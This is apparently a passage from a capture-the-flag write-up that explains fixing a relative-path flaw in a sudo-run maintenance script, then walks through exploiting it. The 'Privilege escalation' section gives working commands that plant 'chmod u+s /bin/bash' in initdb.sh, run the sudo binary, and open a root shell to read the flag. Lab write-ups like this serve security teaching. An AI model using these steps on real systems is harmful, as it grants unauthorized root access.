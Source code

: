 
1. **Absolute Path Definition**: The path to `initdb.sh` is set as an absolute path (`/opt/scripts/initdb.sh`). This ensures that the script always attempts to execute the specific `initdb.sh` located in `/opt/scripts`, regardless of the current working directory.
2. **Check for Script Existence and Executability**: Before attempting to execute `initdb.sh`, the script checks if the file exists and is executable (`-x`). This adds an additional layer of safety by ensuring that the script does not attempt to execute a non-existent or non-executable file, which could result in errors or security issues.
3. **Clear Error Messaging**: In case the `initdb.sh` script is not found or is not executable, the script clearly prints an error message. This helps in troubleshooting and ensures that script failures due to path issues are communicated clearly to the user or administrator.

Using absolute paths like this not only mitigates the risk of unintended file execution but also enhances the script's robustness by making its operation more predictable and secure.


# Privilege escalation

Creating the `initdb.sh` file to execute `/bin/bash` results in the shell elevated to root privileges. 

```bash
$ echo "chmod u+s /bin/bash" > initdb.sh
$ chmod +x initdb.sh
$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.06, 0.03, 0.00
Database service is not running. Starting it...
$ /bin/bash -p
whoami
root
cat /root/root.txt
f894b8ca49729b<SNIP>
```

**`echo "chmod u+s /bin/bash" > initdb.sh`**
- This writes a command into a script file (`initdb.sh`) that, when executed, will set the SUID bit on `/bin/bash`. Setting the SUID bit (`u+s`) on `/bin/bash` will allow any user to run Bash as the root user. As the `/usr/bin/syscheck` binary can be ran in the context of `sudo`, calling `initdb.sh` via this binary , means the encapsulated command will also be ran as `sudo`, and `/bin/bash` will have its SUID successfully modified.

**`chmod +x initdb.sh`**
- Makes the `initdb.sh` script executable.

**`sudo /usr/bin/syscheck`**
- Runs the binary the user has sudo rights over, which ends with the malicious `initdb.sh` script being called.

**`/bin/bash -p`**
- Launches a new Bash shell with the SUID bit set (`-p`), running with root privileges because of the earlier `chmod u+s /bin/bash`.

